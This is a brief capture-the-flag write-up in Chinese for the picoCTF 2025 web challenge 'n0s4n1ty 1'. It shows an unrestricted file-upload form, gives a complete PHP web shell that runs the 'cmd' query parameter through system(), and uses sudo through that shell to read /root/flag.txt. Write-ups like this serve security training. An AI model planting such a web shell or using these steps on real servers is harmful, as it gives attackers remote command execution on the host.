

# n0s4n1ty 1

tags: ` Web Exploitation`, `picoCTF 2025`, `browser_webshell_solvable`


### 查看上傳檔案的 function

```
var loadFile = function(event) {
    var input = event.target;
    var file = input.files[0];
    var type = file.type;
    var output = document.getElementById('preview_img');
    output.src = URL.createObjectURL(event.target.files[0]);
    output.onload = function() {
        URL.revokeObjectURL(output.src) // free memory
    }
};
```

因為沒有限制檔案-> 可嘗試丟 `*.php`

### 嘗試 : 利用$\_GET

```
<?php
    if(isset($_GET['cmd'])) {
        $cmd = $_GET['cmd'];
        echo "<pre>";
        system($cmd);
        echo "</pre>";
    } else {
        echo "No command provided.";
    }
?>
```



連接至 `<url>/uploads/shell.php`

並利用 `?cmd=<cmd>`傳入指令


又以 `sudo -l`


發現可直接訪問 `/root/`

輸入 `shell.php?cmd=sudo cat /root/flag.txt` 即可得到 `flag`
